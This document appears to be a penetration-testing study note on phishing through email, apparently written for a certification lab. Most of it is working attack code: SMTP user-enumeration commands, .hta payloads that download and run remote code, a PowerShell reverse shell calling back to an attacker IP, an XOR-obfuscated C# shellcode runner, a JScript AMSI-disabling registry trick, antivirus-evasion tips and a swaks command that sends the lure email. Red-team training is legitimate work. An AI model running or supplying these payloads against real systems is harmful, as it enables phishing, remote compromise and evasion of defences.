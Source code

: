 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```
**XOR-ed C# Shellcode Runner + DOTNET2JS + AMSI BYPASS IN JSCRIPT**

- use our XOR_Helper to generate XOR-ed C# Shellcode
- Put the XOR-ed shellcode into the shellcode script in ExampleAssembly.dll
- Add a decryption function in the ExampleAssembly.dll after the buf variable like this
```csharp
        byte[] buf = <shellcode here x64>;

//assuming your XOR key is 0xfa
        for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

        int size = buf.Length;
```
- If you are having "Error: Loading Assembly Information" when running DOTNET2JS, switch off your defender.
- when your evil.js is created, open it and slam the following code at the top:
- Note you may need to obfuscare the AmsiEnable code block through some simple string manipulation like below
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A" +"msi"+"Enable";

try{
	var AEnable = sh.RegRead(key);
	if(AEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); 
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); 
	sh.RegWrite(key, 1, "REG_DWORD"); 
	WScript.Quit(1);
}

<rest of your dotnet2jscript stuff>
```
- This should bypass a noobish Defender and AMSI
- There is a chance that Defender will still catch your meterpreter shell. As such, it might be a good idea to do the following when running your multi/handler. Note you may need to run it multiple times for it to work
```bash
# this will run the migrate module and by default it will attempt to migrate to notepad.exe once a shell is established
exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
```
### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```